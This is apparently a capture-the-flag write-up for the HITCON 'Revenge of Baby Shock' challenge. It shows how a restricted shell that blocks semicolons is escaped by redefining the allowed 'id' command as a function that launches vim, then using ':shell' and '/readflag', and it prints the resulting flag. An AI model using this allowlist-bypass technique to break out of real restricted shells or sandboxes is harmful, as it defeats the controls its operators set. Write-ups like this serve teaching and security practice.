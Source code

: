 # Revenge of Baby Shock
_Category: misc_

## Description
> `nc 13.113.249.141 1987`

## Short Solution
```sh
> id () vim
> id
> Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal
exit
:shell                                                        
/readflag
hitcon{r3v3ng3_f0r_semic010n_4nd_th4nks}
```

## Solution

To begin, we connect and see what we have:
```sh
connected!
welcome to Baby shock's revenge !!!
> help
> Available Commands: 
pwd ls mkdir netstat sort printf exit help id mount df du find history touch
```
This challenge is almost exactly the same as the earlier Baby Shock, however the <kbd>;</kbd> character has been restricted.

As we weren't sure what characters were best to use at this point, we wrote a pwntools script that would verify what printable ascii characters can be sent to the server without causing an error. This is relatively simple as the check is performed before the command runs, so we can test it by checking if we get an error when running a command like `id # ;`. If we get an error, the character (<kbd>;</kbd> in this case) wasn't allowed.

The full list of characters allowed isn't particularly interesting, but we did notice that parenthesis, both <kbd>(</kbd> and <kbd>)</kbd> were allowed. This lets us re-define an allowed command as a function, which lets us execute an arbitrary command. From here, we can continue exploitation as in the original Baby Shock challenge.

To launch vim, we simply redefine the `id` command:
```sh
> id () vim
> id
```
